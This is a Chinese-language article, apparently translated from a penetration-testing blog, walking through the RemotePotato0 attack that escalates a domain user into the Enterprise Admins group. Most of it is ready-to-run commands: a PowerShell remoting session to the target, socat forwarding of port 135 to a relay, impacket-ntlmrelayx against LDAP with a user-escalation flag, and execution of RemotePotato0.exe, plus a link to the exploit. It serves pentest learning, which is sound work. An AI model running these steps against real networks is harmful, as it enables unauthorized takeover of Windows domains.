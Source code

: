 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/rOKyq4KWHnPY4WAAyqfx6A)

本文为翻译文，如有需要可查看原文：  

https://pentestlab.blog/2021/05/04/remote-potato-from-domain-user-to-enterprise-admin/

前言  

如需复现该漏洞，我们需要开启 PS 远程管理，开启方法如下

```
Enable-PSremoting
set-item wsman:localhost\client\trustedhosts -value
```

可以使用下面的命令来查看我们的目标配置：

```
Get-PSSessionConfiguration
```

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08W5hsqbakW4gontOe2JltjBIlBSR71IahUsKd1NN8e3o0ySCRiab0TtquXiaDNNDqAzhib1ADcrIAvYw/640?wx_fmt=png)

如有需要，可将指定用户加入到指定组中：  

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08W5hsqbakW4gontOe2JltjB2WCeddGibLtGOqdqicK6bciamvtTyt3XqG4ONDFSvwlYcdK1diaeMvQHrQ/640?wx_fmt=png)

所以该攻击的前提为：

1.  具有 Domain Administrator 特权的用户实际上已登录到主机或通过远程桌面登录
    
2.  攻击者已获得对主机的初始访问权限，或者已通过 WinRM 或 SSH 访问
    
3.  LDAP 和 SMB 签名未配置
    

复现

首先使用下面的命令与目标主机建立链接

```
Enter-PSSession -ComputerName 10.0.0.2 -Authentication Negotiate -Credential $(get-credential)
```

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08W5hsqbakW4gontOe2JltjBPaZCm5DQFia7IqkKFicKUS2GibDskibp4PDT7qVeTYO88u3rbKZlswvSdQ/640?wx_fmt=png)

然后使用 socat 进行转发：

```
sudo stty -tostop
sudo socat TCP-LISTEN:135,fork,reuseaddr TCP:10.0.0.2:9998 &
```

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08W5hsqbakW4gontOe2JltjBfP26ewIfpOVLcylGnuqfiaib01MwZaUMYWaOc3emQEDjPbpMH2Sx2fAg/640?wx_fmt=png)

然后进行中继

```
impacket-ntlmrelayx -t ldap://10.0.0.1 --no-wcf-server --escalate-user pentestlab
```

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08W5hsqbakW4gontOe2JltjBGILHyetI2m0KnGzu0N0icYwAI15zm4WshAnSuAMRfZo5jO2zMypxIOg/640?wx_fmt=png)

然后在目标机器上执行 remote potato

```
RemotePotato0.exe -r 10.0.0.3 -p 9998
```

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08W5hsqbakW4gontOe2JltjBVSSlng9m34uXsywEZF4j0bDWcaU6FiaogCUVzPxibvQkFibNBes9EgPicg/640?wx_fmt=png)

若成功则用户会被加入到 Enterprise Admins 组

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08W5hsqbakW4gontOe2JltjBXOUjRVMPAVcQX2AGAf2Vy0IXvgk11qbUQEuAiaxAfDzqkxheyvJs61A/640?wx_fmt=png)

此时便可以使用任何的横向移动工具获取 system 权限：

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08W5hsqbakW4gontOe2JltjBNof7WVjgTJMDY8bgibEMgh0zbl4TibxgZhibJ1lTPDjiciaT5GeC7ywgJ7w/640?wx_fmt=png)

exploit 地址：https://github.com/antonioCoco/RemotePotato0

     ▼

更多精彩推荐，请关注我们

▼

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08XZjHeWkA6jN4ScHYyWRlpHPPgib1gYwMYGnDWRCQLbibiabBTc7Nch96m7jwN4PO4178phshVicWjiaeA/640?wx_fmt=png)